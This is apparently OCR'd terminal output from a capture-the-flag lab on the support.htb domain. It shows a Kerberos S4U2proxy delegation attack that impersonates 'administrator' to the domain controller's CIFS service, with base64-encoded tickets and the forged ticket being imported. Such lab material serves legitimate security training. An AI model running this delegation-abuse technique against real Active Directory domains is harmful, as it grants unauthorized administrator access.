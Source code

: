 ```
      Gg5NM5AI7jfgHSkRuuVe8dSrc5wD9KADcsaRSqL2zE9ykF691m/m8Lnj//dNWbx5HZ0UVQL3LKKXt9lP
      /HAPrZAVQ7WDGmTs1k+sdGOtkvmBrIpzqaqC53o2mOCezjxfBlT5SsgXu/M9bZa1PR9QAN6WuKW+/XUN
      asQzZ0PHY1CvkJQ3/w8LLJEl6X60vFK7WoOLPLa40pBfX/RnWakWB/FzF0ht5z4valdoo3LgMfxUtcVu
      LMARwoUSNJD5aOT1xRk10BYkSDtbqtx1VZGjCMjyDf+7Czqog1GIotk+GoCk3yt2lCCFpW/jp+zSmQMN
      8iAviSrrJHc4MaMa81EzDoB6Gj2ZMWowKL1Dv/ByE8XbSjd6rhWwVIhPBjaCKQCtI6qVoyfGnUmrHRt8
      oCtumbkyBahCJQ6tnSp3k8dyVAu9fPx968jNOSzVq+XGttjCt/U8Z0FNFsHcpIIQDP6Z5619aYemNvWh
      XG0q194XhH4xeSfcEfV0gFV4ppAjWgaQEXCfwp4j7HuC1DujEvk5co/2unh9TeNtKXkEd3ji+RwUXAd7
      YHlqh3QJiA2OXe2bm742HtNJOMVkNHB5Fg5wtcvVororI+2IzYQudpQy8sWzVHyEoUpEbTnZGMQL45nb
      TwSK1aSg71d5Bzr6Y5NB/ipmhYP45lA2hRci7RZAOn/tt7T6yhTjQsn1/RfC9XPax/vpzBYI5d5HFAO5
      4BBcA7mMXQHJ0XOkOIHo87AeLyW8UjshDgw6sjeebtAWxXjjuvUqNOkfuxXAAvP4OZIs4qA1hRp+jZj8
      KlrRqDqiqCmAD1Li7SGDMgUA8OlX+7leb/ZouUX4/edRVqZDLvT/nxmHN8BzQipvq/YkkEAwIdvisvR9
      JBCr248djlp7ZsZRGWKaNLlkB2o6pfqOZwx3wNrKjz44/HR51tYx7qaiRnuhAt0Xeyf5OK1Y6HYk/Xev
      VzKUoCcVoZQS8cYWNRlanlE4kdhKl40us2bny8GIEvKoDnt0NYWr5WaUohi7gK0g9sw29FfgqSDOnU7q
      x2QUkLlT0x3ZeqwwTIS+odRAUh+4SP+dDf/ip77FSRM+krPERNZoE9W0QAhPGPHf3C/3mxt8MnESZJ+I
      TL3dYzFTDXjg7OWb3MJ/cNziBCpQX726jeHuey6+iuUhPWJEu72qWdQRjoW09eBqhaOB1jCB06ADAgEA
      ooHLBIHIfYHFMIHCoIG/MIG8MIG5oBswGaADAgEXoRIEEFgqzBwaCN/nUkRZaYlagIShDRsLU1VQUE9S
      VC5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjIwNTI3MTkzODE3
      WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRCqR4wHKAD
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
[+] Ticket successfully imported!
```
